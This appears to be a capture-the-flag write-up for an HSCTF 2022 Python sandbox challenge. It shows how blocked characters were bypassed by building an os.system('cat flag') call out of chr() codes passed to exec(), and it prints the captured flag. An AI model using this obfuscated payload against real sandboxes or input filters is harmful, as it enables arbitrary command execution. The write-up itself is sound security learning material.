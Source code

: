 ```yaml
---
title: "[HSCTF] pass"
excerpt_separator: <!--more-->
categories:
  - CTF
tags:
  - HSCTF
  - MISC
  - "2022"
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


This is a python sandbox challenge.

By inputting some characters, we can identify few `Illegal characters`:
```
[]._'"
```

<!--more-->

But luckily `()` is allowed, looking at `locals()`, we can see `exec()` is allowed.

![IMG](/assets/images/hsctf2022-paas/img.png)

`exec()` required string argument but unfortunately `'"` were restricted. However, we found out that `chr()` is allowed, so let's create our payload:

Original payload:
```py
exec("__import__('os').system('cat flag')")
```
Payload crafted to bypass restrictions:
```py
exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(39)+chr(41))
```

Execute it and got the flag!

![IMG](/assets/images/hsctf2022-paas/img2.png)

Flag:
```
flag{vuln3r4b1l17y_45_4_53rv1c3}
```